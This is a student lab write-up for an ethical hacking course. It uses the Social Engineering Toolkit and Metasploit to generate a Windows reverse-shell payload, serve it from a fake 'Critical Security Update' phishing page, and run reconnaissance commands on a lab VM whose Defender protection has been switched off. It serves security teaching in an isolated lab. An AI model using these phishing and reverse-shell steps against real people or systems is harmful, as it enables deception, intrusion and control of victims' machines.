 <div style="display: flex; justify-content: space-between; align-items: center;">
  <span style="text-align: left;"><strong>Horacio Gonzalez</strong></span>
  <span style="text-align: center;"><strong>SET and Armitage</strong></span>
  <span style="text-align: right;"><strong>ICT450 Ethical Hacking</strong></span>
</div>

#### **Overview**
In this lab we show the use of the Social Engineering Toolkit (SET), Metasploit, and Armitage for exploiting a Windows 8.1 machine. The steps include importing the Windows machine into VirtualBox, creating a reverse shell payload, hosting the payload using a phishing webpage, and using Armitage to exploit the system and gain control of the target machine.



#### **1. Environment Setup**
##### **1.1 Import the Windows 8.1 Machine into VirtualBox**
1. Open VirtualBox and navigate to **File** -> **Import Appliance**.
2. Select the `.ova` file for the Windows 8.1 virtual machine.
3. Follow the prompts and ensure the virtual machine is configured to use **Host-Only Adapter**.
4. Start the Windows 8.1 VM and log in with the following password:
   - **Password:** `AggiesR0ck$`

5. Open Windows Defender, go to settings, disable Real Time Protection and Save changes.

##### 1.2 Update and Configure Kali
1. Open a terminal in Kali Linux and update the system:
   ```bash
   sudo apt update -y && sudo apt full-upgrade -y
    ```
2. Start required services in Kali:
    ```
    sudo systemctl start apache2
    ```
3. Verify the services are running:
    ```
    sudo systemctl status apache2
    ```

#### **2. Using the Social Engineering Toolkit (SET) In Kali**
##### 2.1 Launch SET
1. We will start by launching SET, open a terminal and type:
   ```
   sudo setoolkit
    ```
2. From the SET menu select `1) Social Engineering Attacks` and click enter (just enter the number and enter), then select `4) Create a Payload and Listener`. 

3. Then we will select the payload type, so enter `4) Windows Shell Reverse_TCP x64`    

4. Configure the payload:
   1. LHOST: Enter the IP of your Kali machine `(192.168.56.4)` 
   2. LPORT: `443`
5. Allow SET to generate the payload but `do not` start the listener yet.
6. Leave the terminal as it is and open a new terminal.

#### In a New Terminal
##### 2.2 Host the Payload,
1. Move the payload to the Apache web directory:
    ```
    sudo mv /root/.set/payload.exe /var/www/html/shPayload.exe
    ```
2. Verify the payload is in the correct directory:
    ```
    ls /var/www/html
    ```

##### 2.3 Create a Phishing Webpage
1. Create a fake HTML page to trick users into downloading the payload:
    ```
    echo '<html>
    <head><title>Important Update</title></head>
    <body>
    <h1>Critical Security Update</h1>
    <p>Click the link below to download the update:</p>
    <a href="shPayload.exe">Download Update</a>
    </body>
    </html>' | sudo tee /var/www/html/index.html
    ```
2. Verify the page is correctly saved:
    ```
    cat /var/www/html/index.html
    ```
3. Restart the Apache server to serve the payload and the webpage:
    ```
    sudo systemctl restart apache2
    ```

##### 2.4 Go back to the terminal with the payload we haven't started
1. Go back to the SET terminal and enter `yes` and hit Enter to start the payload listener.
2. SET will now wait for the reverse shell connection.
3. We can open a new terminal and check if we have done this correctly by checking the ports open with:
    ```
    netstat -plnt
    ```
4. Go back to the Metasploit/SET terminal

##### 2.5 Go to the Windows machine
1. Inside the Windows machine open Firefox and go to (your Kali's IP):
    ```
    http://192.168.56.4
    ```
2. Download the payload
3. Go to the file location
4. Right-Click the file and click `Properties`
5. Click `Unblock` and click `Apply`, then `OK`
6. Now open the File

##### 2.6 Inside the Kali Machine
1. We should see that a shell session was opened 
2. To list all the sessions opened
    ```
    sessions -l
    ```
3. Then to interact with the session
    ```
    sessions -i <sessionID>
    ```
4. If we did everything correctly, we should be inside the machine, so run a couple of commands to check if we are indeed inside the target and get info about the system.
    ```
    dir
    hostname
    wmic os get caption
    wmic computersystem get username
    wmic process list brief
    ```
5. Once we are done exploiting the Windows machine we can close the reverse shell entering `exit`.
6. We enter `exit` one more time to exit Metasploit.
7. We can now close the terminal.